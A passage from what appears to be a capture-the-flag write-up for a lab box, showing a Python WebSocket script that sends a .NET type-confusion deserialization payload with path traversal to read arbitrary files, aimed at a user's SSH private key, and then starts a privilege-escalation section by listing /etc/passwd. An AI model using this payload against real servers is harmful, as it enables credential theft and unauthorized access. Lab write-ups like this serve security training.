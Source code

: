 ```py
import websockets
import asyncio
import json
import base64
import sys

websocket_url = "ws://10.10.11.201:5000/"

async def lets_talk(input_data):
    async with websockets.connect(websocket_url) as ws:

        await ws.send(json.dumps(input_data))
        recv_msg = await ws.recv()
        # print(f"> {recv_msg}")

        j_data = json.loads(recv_msg)
        if "RemoveOrder" in j_data and "ReadFile" in j_data["RemoveOrder"]:
            data = j_data["RemoveOrder"]["ReadFile"]
            print(data)


if __name__ == "__main__":
    try:
        read_order = {"ReadOrder": "orders.txt"}
        write_order = {"WriteOrder": "New Order"}
        remove_order = {"RemoveOrder": {"$type": "bagel_server.File, bagel","ReadFile": f"../../..{sys.argv[1]}"}}  # /home/phil/.ssh/id_rsa
        asyncio.get_event_loop().run_until_complete(lets_talk(input_data=remove_order))
    except KeyboardInterrupt:
        print(' KeyboardInterrupt')
    except IndexError as e:
        print("Usage: script.py <filename>")
        exit(e)
    except websockets.exceptions.ConnectionClosed as e:
        print(e)
```

With that we can read content of user "phil" private ssh key and get shell as user "phil".

And the WebSocket server `bangel.dll` is running under the user account "phil," which is why we were unable to read the id_rsa file via LFI, but we were able to access it via the WebSocket.

# Privesc

## dotnet with sudo

2 users on the box.
```bash
[phil@bagel tmp]$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000::/home/developer:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```
